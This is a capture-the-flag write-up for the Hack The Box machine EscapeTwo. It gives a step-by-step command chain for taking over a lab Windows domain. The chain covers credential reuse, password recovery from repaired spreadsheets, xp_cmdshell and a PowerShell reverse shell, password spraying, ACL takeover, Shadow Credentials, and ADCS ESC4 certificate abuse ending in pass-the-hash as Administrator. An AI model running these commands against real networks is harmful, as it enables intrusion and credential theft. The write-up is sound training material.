

# Hack The Box - EscapeTwo



EscapeTwo starts with an assume-breach Windows scenario and ends with domain admin through MSSQL, credential recovery, and ADCS abuse. The key pivot is from a broken Excel workbook to SQL admin, then to a user shell, and finally to `Administrator` via a vulnerable certificate template.

## Reconnaissance

I started with a full port scan to identify exposed services.

```bash
nmap -p- --min-rate 10000 -sCV 10.10.11.51
```

The scan showed a Windows domain controller for `sequel.htb` with MSSQL exposed on 1433.

```text
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http
636/tcp   open  ssl/ldap
1433/tcp  open  ms-sql-s
3268/tcp  open  ldap
3269/tcp  open  ssl/ldap
5985/tcp  open  http
9389/tcp  open  mc-nmf
47001/tcp open  http
```

I added `DC01.sequel.htb`, `sequel.htb`, and `DC01` to `/etc/hosts`.

## Initial Credentials

The supplied account was:

```text
rose / KxEPkKe6R8su
```

I verified the credentials:

```bash
netexec smb dc01.sequel.htb -u rose -p 'KxEPkKe6R8su'
netexec winrm dc01.sequel.htb -u rose -p 'KxEPkKe6R8su'
netexec mssql 10.10.11.51 -u rose -p KxEPkKe6R8su
```

SMB and MSSQL worked, but WinRM did not.

## MSSQL Access

I connected to MSSQL with Windows authentication:

```bash
mssqlclient.py -windows-auth sequel.htb/rose:KxEPkKe6R8su@dc01.sequel.htb
```

Inside the SQL shell, I confirmed I was only `guest` and could not run commands.

```sql
SELECT SYSTEM_USER AS CurrentLogin, USER_NAME() AS CurrentUser;
xp_cmdshell whoami;
enable_xp_cmdshell
```

That meant I needed a different path.

## SMB Shares

I enumerated SMB shares:

```bash
netexec smb dc01.sequel.htb -u rose -p 'KxEPkKe6R8su' --shares
```

Two interesting shares stood out:

```text
Accounting Department
Users
```

The `Users` share was mostly uninteresting, but `Accounting Department` contained two Excel files:

```text
accounting_2024.xlsx
accounts.xlsx
```

I downloaded both.

```bash
smbclient //dc01.sequel.htb/Accounting\ Department -U rose --password KxEPkKe6R8su
prompt off
mget *
```

## Corrupted Workbooks

The files were actually ZIP archives with corrupted headers.

```bash
file *.xlsx
xxd accounts.xlsx | head -1
xxd accounting_2024.xlsx | head -1
```

I fixed the first four bytes so they would open as normal XLSX files.

After repair, `accounts.xlsx` revealed credential data.

### Extracted Data

The workbook contained usernames and passwords:

```text
Angela,Martin,angela@sequel.htb,angela,0fwz7Q4mSpurIt99
Oscar,Martinez,oscar@sequel.htb,oscar,86LxLBMgEWaKUnBG
Kevin,Malone,kevin@sequel.htb,kevin,Md9Wlq1E5bZnVDVo
NULL,sa@sequel.htb,sa,MSSQLP@ssw0rd!
```

The important result was the SQL `sa` password:

```text
MSSQLP@ssw0rd!
```

I validated it:

```bash
netexec mssql dc01.sequel.htb -u users -p passwords --continue-on-success --local-auth
```

That confirmed:

```text
DC01\sa:MSSQLP@ssw0rd!
```

## SQL Foothold

### Enable xp_cmdshell

I reconnected as `sa`:

```bash
mssqlclient.py 'sequel.htb/sa:MSSQLP@ssw0rd!@dc01.sequel.htb'
```

Then I enabled command execution:

```sql
enable_xp_cmdshell
xp_cmdshell whoami
```

The command ran as:

```text
sequel\sql_svc
```

I also used `netexec` for command execution:

```bash
netexec mssql dc01.sequel.htb -u sa -p 'MSSQLP@ssw0rd!' --local-auth -x whoami
```

## Shell as sql_svc

I used `xp_cmdshell` to launch a PowerShell reverse shell and caught it on my listener.

```bash
rlwrap -cAr nc -lnvp 443
```

Then from MSSQL:

```sql
xp_cmdshell powershell -e <base64_payload>
```

That gave me a shell as:

```text
sequel\sql_svc
```

## Local Enumeration

As `sql_svc`, I checked privileges:

```powershell
whoami /priv
```

There was nothing useful there.

I enumerated the filesystem and found a SQL Server installation directory:

```text
C:\SQL2019\ExpressAdv_ENU
```

Inside it, `sql-Configuration.INI` contained two passwords:

```text
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SAPWD="MSSQLP@ssw0rd!"
```

The important one was the SQL service account password:

```text
WqSZAF6CysDQbGb3
```

## Shell as ryan

I tested the new password against the domain users:

```bash
netexec smb dc01.sequel.htb -u users -p WqSZAF6CysDQbGb3 --continue-on-success
```

That worked for:

```text
sequel.htb\ryan
```

I confirmed WinRM access:

```bash
netexec winrm dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3
```

Then I logged in with Evil-WinRM:

```bash
evil-winrm -u ryan -p WqSZAF6CysDQbGb3 -i dc01.sequel.htb
```

I read the user flag:

```powershell
type user.txt
```

## BloodHound and ACL Abuse

I collected BloodHound data from `ryan`:

```bash
netexec ldap dc01.sequel.htb -u ryan -p WqSZAF6CysDQbGb3 --bloodhound --collection All --dns-server 10.10.11.51
```

BloodHound showed that `ryan` had `WriteOwner` over `ca_svc`.

I first tried Shadow Credentials directly, but that failed because I did not yet own the object.

So I changed the owner and granted `GenericAll`:

```bash
bloodyAD -d sequel.htb --host 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan
bloodyAD -d sequel.htb --host 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan
```

Then Shadow Credentials worked:

```bash
certipy shadow auto -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 -account 'ca_svc' -dc-ip 10.10.11.51
```

That gave the hash:

```text
3b181b914e7a9d5508ea1e20bc2b7fce
```

I validated it with SMB.

## ADCS Enumeration

Using `ca_svc`, I enumerated certificate templates:

```bash
certipy find -vulnerable -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -stdout
```

That revealed one vulnerable template:

```text
DunderMifflinAuthentication
```

The important vulnerability was:

```text
ESC4
```

The `Cert Publishers` group had dangerous permissions over the template.

## ESC4 to ESC1

I modified the template to make it exploitable as ESC1.

### Certipy 4.8.2 flow

```bash
certipy template -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -target dc01.sequel.htb -save-old
```

Then I requested a certificate as `administrator@sequel.htb`:

```bash
certipy req -ca sequel-DC01-CA -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb
```

And authenticated to get the Administrator NT hash:

```bash
certipy auth -pfx administrator.pfx
```

### Certipy 5.0.2 flow

The newer flow was the same conceptually:

```bash
certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration -no-save
certipy req -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn administrator@sequel.htb
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.51
```

The final Administrator hash was:

```text
7a8d4e04986afa8ed4060f75e5a0b3ff
```

## Final Access

With the Administrator hash, I opened a WinRM session:

```bash
evil-winrm -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff -i dc01.sequel.htb
```

Then I read the root flag:

```powershell
type root.txt
```

## Attack Path

- **Scan the host** — identify the DC, MSSQL, and SMB.
- **Use provided credentials** — log in as `rose`.
- **Find broken workbooks** — recover passwords from `accounts.xlsx`.
- **Gain SQL admin** — use `sa` on MSSQL and enable `xp_cmdshell`.
- **Get a shell** — land as `sql_svc`.
- **Recover another password** — find `ryan` in `sql-Configuration.INI`.
- **Pivot to `ryan`** — use WinRM and collect BloodHound data.
- **Abuse ACLs** — take ownership of `ca_svc` and grant `GenericAll`.
- **Use Shadow Credentials** — recover the `ca_svc` hash.
- **Abuse ADCS ESC4** — modify the certificate template.
- **Request a forged cert** — impersonate `Administrator`.
- **Win the box** — use the Administrator hash for final access.
